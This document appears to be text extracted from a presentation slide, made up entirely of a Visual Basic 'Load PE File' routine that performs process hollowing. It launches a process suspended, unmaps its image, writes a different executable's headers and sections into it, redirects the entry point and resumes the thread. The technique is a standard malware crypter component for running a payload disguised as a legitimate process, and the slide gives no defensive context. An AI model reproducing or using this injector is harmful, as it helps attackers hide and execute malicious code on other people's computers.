

CopyMemory idh, abExeFile(0), Len(idh)
If idh.e_magic <> IMAGE_DOS_SIGNATURE Then
MsgBox "MZ signature not found!", vbCritical, "File load error"
Exit Sub
End If
CopyMemory inh, abExeFile(idh.e_lfanew), Len(inh)
If inh.Signature <> IMAGE_NT_SIGNATURE Then
MsgBox "PE signature not found!", vbCritical, "File load error"
Exit Sub
End If

si.cb = Len(si)
If CreateProcess(vbNullString, fisier, 0, 0, False, CREATE_SUSPENDED, 0, 0, si, pi) = 0 Then Exit Sub
context.ContextFlags = CONTEXT86_INTEGER
If GetThreadContext(pi.hThread, context) = 0 Then GoTo ClearProcess
Call ReadProcessMemory(pi.hProcess, ByVal context.Ebx + 8, addr, 4, 0)
If addr = 0 Then GoTo ClearProcess
If ZwUnmapViewOfSection(pi.hProcess, addr) Then GoTo ClearProcess
ImageBase = VirtualAllocEx(pi.hProcess, ByVal inh.OptionalHeader.ImageBase, inh.OptionalHeader.SizeOfImage, MEM_RESERVE Or MEM_COMMIT, PAGE_READWRITE)
If ImageBase = 0 Then GoTo ClearProcess

Call WriteProcessMemory(pi.hProcess, ByVal ImageBase, abExeFile(0), inh.OptionalHeader.SizeOfHeaders, ret)
lOffset = idh.e_lfanew + Len(inh)

For i = 0 To inh.FileHeader.NumberOfSections - 1
CopyMemory ish, abExeFile(lOffset + i * Len(ish)), Len(ish)
Call WriteProcessMemory(pi.hProcess, ByVal ImageBase + ish.VirtualAddress, abExeFile(ish.PointerToRawData), ish.SizeOfRawData, ret)
Call VirtualProtectEx(pi.hProcess, ByVal ImageBase + ish.VirtualAddress, ish.VirtualSize, Protect(ish.characteristics), addr)
Next i

Call WriteProcessMemory(pi.hProcess, ByVal context.Ebx + 8, ImageBase, 4, ret)
context.Eax = ImageBase + inh.OptionalHeader.AddressOfEntryPoint
Call SetThreadContext(pi.hThread, context)
Call ResumeThread(pi.hThread)
Exit Sub
# Load PE File